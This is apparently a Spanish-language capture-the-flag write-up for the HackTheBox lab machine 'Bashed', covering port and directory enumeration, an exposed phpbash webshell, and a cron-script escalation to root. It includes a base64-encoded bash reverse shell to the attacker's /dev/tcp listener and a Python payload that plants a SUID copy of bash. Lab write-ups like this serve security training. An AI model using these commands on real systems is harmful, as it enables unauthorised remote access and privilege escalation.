




# Information
+ Machine Name: Bashed
+ IP: 10.129.161.34
+ OS: Linux
+ Difficulty: Easy

# Enumeracion

## Nmap

Primer escaneo:

```
nmap -p- -sS -Pn -n --open -vvv --min-rate 1000 -oG allports 10.129.161.34
```

```
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63
```

Solo puerto `80` http abierto.

Escaneo detallado:

```
nmap -p80 -sCV -oN targeted 10.129.161.34
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

## Web

En la pagina se habla de phpbash, una webshell semi interactiva.



Mas info de phpbash [aqui](https://github.com/Arrexel/phpbash)
## Fuzzing

No hay nada mas interesante, así que aplico fuerza bruta de directorios con `ffuf`:

```
ffuf -u http://10.129.161.34/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -ic
```

```
images                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 68ms]
uploads                 [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 64ms]
php                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 47ms]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 66ms]
dev                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 109ms]
js                      [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 67ms]
```

Encuentra 2 directorios interesantes `dev` y `uploads`

En el directorio `/dev` se encuentran `phpbash.php` y `phpbash.min.php`:



Que permiten ejecutar comandos como el usuario `www-data`:



Se puede leer la flag `user.txt`:

```
www-data@bashed
:/# cat /home/arrexel/user.txt
5c2ca***************************
```

# Shell como www-data:

```
echo "bash -i >& /dev/tcp/10.10.14.244/443 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNDQvNDQzIDA+JjEK
```

Los `+` los tuve que poner en url encode `%2B` porque los interpreta como espacios.

Me pongo en escucha con `nc`:

```
root@kali /home/cangrejo # nc -lnvp 443
listening on [any] 443 ...
```



Terminal en escucha:

```
www-data@bashed:/var/www/html/dev$ whoami
whoami
www-data
```

# PrivEsc

## Shell como scriptmanager

Comienzo revisando los permisos `sudo` de `www-data`:

```
sudo -l
```

```
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

Puede ejecutar como `scriptmanager` cualquier cosa sin contraseña:

```
sudo -u scriptmanager bash -p
```

La opcion `-p` es para indicar que preserve los privilegios del usuario al iniciar la shell.

```
scriptmanager@bashed:~$ whoami
scriptmanager
```

Intento ejecutar de nuevo `sudo -l` pero requiere contraseña.

Busco archivos que le pertenezcan a `scriptmanager`:

```
find / -type f -user scriptmanager 2>/dev/null | grep -v "proc"
```

```
/scripts/test.py
<..snip..>
```

Hay un archivo `test.py` en `/scripts`, dentro de `/scripts` hay dos archivos:
`test.py` y `test.txt`.

test.py:
```
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

test.txt:

```
testing 123!
```

`test.py` abre el archivo `test.txt` en modo escritura y lo almacena en la variable `f`,
y escribe `testing 123!`

`test.txt` le pertenece a `root` por lo que si intento ejecutar el script obtengo permiso denegado.

Puede que `root` ejecute el script cada cierto tiempo, para comprobarlo cambie el `testing 123!` por `rootcrab was here`:

```
f = open("test.txt","w")
f.write("rootcrab was here!")
f.close
```

Con `watch` observo el contenido de test.txt: 

```
watch -n 1 cat test.txt
```

`-n 1` cada segundo.

```
Every 1.0s: cat test.txt                                                                                                                                          rootcrab was here!
```

## Shell como root:

Creo un directorio `test` en `/tmp` y Cambio el script `test.py`:

```
#!/usr/bin/python3

import os

os.system("cp /bin/bash /tmp/test/cangrejo.sh && chmod u+s /tmp/test/cangrejo.sh")
```

Esto hace una copia de `bash` en en directorio `/tmp/test` como `cangrejo.sh` y le asigna permisos SUID.

```
watch -n 1 ls /tmp/test 
```

```
Every 1.0s: ls /tmp/test

cangrejo.sh
```

Copia de bash creada por root con permisos SUID:

```
total 1020
-rwsr-xr-x 1 root          root          1037528 Jul 12 08:03 cangrejo.sh
```

```
scriptmanager@bashed:/tmp/test$ ./cangrejo.sh -p
cangrejo.sh-4.3# whoami
root
```

flag root.txt:

```
cangrejo.sh-4.3# cat /root/root.txt
99327***************************
```

# 🦀
